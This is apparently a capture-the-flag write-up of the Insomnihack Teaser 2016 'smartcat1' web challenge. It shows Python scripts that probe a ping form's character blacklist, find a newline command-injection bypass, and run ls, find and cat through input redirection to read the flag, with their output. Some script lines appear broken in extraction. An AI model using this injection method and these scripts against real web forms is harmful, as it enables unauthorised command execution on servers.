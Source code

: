 ```yaml
---
id: 488
title: 'Insomnihack Teaser 2016 - smartcat1 - 50 pt Web Challenge'
date: 2016-01-17T21:00:52+00:00
author: Kris
layout: post
guid: https://ctf.rip/?p=488
permalink: /insomnihack-teaser-2016-smartcat1-50-pt-web-challenge/
post_views_count:
  - "1066"
image: /images/2016/01/insomnihack.png
categories:
  - Write-Ups
---
```

<img class="wp-image-489 aligncenter" src="/images/2016/01/smartcat1.png" alt="smartcat1" width="546" height="286" srcset="/images/2016/01/smartcat1.png 707w, /images/2016/01/smartcat1-300x157.png 300w, /images/2016/01/smartcat1-660x346.png 660w" sizes="(max-width: 546px) 100vw, 546px" />

Happy new year CTFers! 2016 brings a us a super fun Insomnihack teaser. The theme being Internet of <del>Things</del> $h!T.

This first challenge was really trivial but probably stumped some people judging by IRC. Funny thing is I had just recently solved a very similar challenge in another CTF so the first thing I tried worked.

So we read the clue and all we really have is a link, at the link (<http://smartcat.insomnihack.ch/cgi-bin/index.cgi>) we're greeted with a "ping destination" input box like this:

<img class="wp-image-493 aligncenter" src="/images/2016/01/smartcat11.png" alt="smartcat11" width="538" height="493" srcset="/images/2016/01/smartcat11.png 805w, /images/2016/01/smartcat11-300x275.png 300w, /images/2016/01/smartcat11-768x703.png 768w, /images/2016/01/smartcat11-660x604.png 660w" sizes="(max-width: 538px) 100vw, 538px" />

Ok so immediately your "command injection" alarm bells ring all at once, and yeah you're right. There's a blacklist of acceptable characters though and the usual assortment of command injection characters like $, \`, |, & and so on are rejected:

<img class="wp-image-494 aligncenter" src="/images/2016/01/smartcat12.png" alt="smartcat12" width="317" height="135" srcset="/images/2016/01/smartcat12.png 415w, /images/2016/01/smartcat12-300x128.png 300w" sizes="(max-width: 317px) 100vw, 317px" />

At this point I want to map out the blacklist definitively so I create some Python code to enumerate the script's responses to inputs. The below script just sends each possible character, then the "id" command and then parses for possible error messages:

```
#!/usr/bin/python

import requests

URL = 'http://smartcat.insomnihack.ch/cgi-bin/index.cgi'

s = requests.Session()

for i in range(,256):
  payload = { 'dest' : chr(i) + 'id' + chr(i)}
  bad = 

  print "[*] Trying " + hex(i)
  print "[*] Trying " + payload['dest']
  r = s.post(URL, data=payload)

  for line in r.content.splitlines():
    if 'Error running ping' in line:
      bad+=1
      print line

    if 'Bad character' in line:
      bad += 1
      print line

  if bad == :
    print r.content

```

Which, rather quickly returns me a successful payload execution when i = 0x0a:
  
```
[*] Trying 0x9
[*] Trying 	id	
  Bad character 	 in dest
[*] Trying 0xa
[*] Trying 
id
Smart Cat debugging interface
Ping destination:
Ping results:
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Ok so we can get command execution, but letting the script play out, we have found a pretty depressing set of restricted input characters consisting of:

  * <space>, $, ;, &, |, (, {, \` and <tab>

Fortunately we have shell redirection characters "<" and ">" and that's all we need. We first have to track down the flag, I issue an "ls" command to see the files in the current directory, using this script:



```
#!/usr/bin/python

import requests
import sys

URL = 'http://smartcat.insomnihack.ch/cgi-bin/index.cgi'

s = requests.Session()

payload = { 'dest' : chr(10) + sys.argv[1] }

r = s.post(URL, data=payload)

preparsing = False
for line in r.content.splitlines():
  if '
```
' in line:
    preparsing = False

  if preparsing:
    print line

  if '

'</span> in line:
    print line.replace("

"</span>,"")
    preparsing = True

```

Where I find a interesting file or folder called "there":

```
root@ubuntu:~/insomnihack/smartcat# ./sc_cmd.py ls
  index.cgi
there

```

I issue the "find" command to investigate further which leads me to the flag, as seen here:

```
root@ubuntu:~/insomnihack/smartcat# ./sc_cmd.py find
  .
./index.cgi
./there
./there/is
./there/is/your
./there/is/your/flag
./there/is/your/flag/or
./there/is/your/flag/or/maybe
./there/is/your/flag/or/maybe/not
./there/is/your/flag/or/maybe/not/what
./there/is/your/flag/or/maybe/not/what/do
./there/is/your/flag/or/maybe/not/what/do/you
./there/is/your/flag/or/maybe/not/what/do/you/think
./there/is/your/flag/or/maybe/not/what/do/you/think/really
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag
root@ubuntu:~/insomnihack/smartcat# ./sc_cmd.py cat \<./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag

  INS{warm_kitty_smelly_kitty_flush_flush_flush}
```